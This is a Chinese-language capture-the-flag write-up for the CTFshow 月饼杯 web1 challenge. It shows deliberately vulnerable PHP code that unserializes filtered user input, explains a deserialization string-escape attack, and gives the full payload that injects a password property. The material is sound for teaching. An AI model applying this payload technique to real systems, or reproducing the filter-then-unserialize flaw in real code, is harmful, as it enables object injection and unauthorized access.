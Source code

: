 ```yaml
---
{"dg-publish":true,"title":"CTFshow_月饼杯_web1_此夜圆","dg-path":"安全/靶场/CTFshow_月饼杯_web1_此夜圆.md","permalink":"/安全/靶场/CTFshow_月饼杯_web1_此夜圆/","dgPassFrontmatter":true}
---
```


```php
<?php
error_reporting(0);

class a
{
    public $uname;
    public $password;
    public function __construct($uname,$password)
    {
        $this->uname=$uname;
        $this->password=$password;
    }
    public function __wakeup()
    {
            if($this->password==='yu22x')
            {
                include('flag.php');
                echo $flag; 
            }
            else
            {
                echo 'wrong password';
            }
        }
    }

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```
这题是**PHP反序列化**的题目
考点是 **字符逃逸** 字符增多

这里的字符过滤是将`Firebasky`过滤为`Firebaskyup`
也就是9个字符转化为11个字符

我们需要在uname中包含下面内容：
```
";s:8:"password";s:5:"yu22x";}
```
这一共是30个字符，所以我们要包含15个`Firebasky`

```
FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}
```


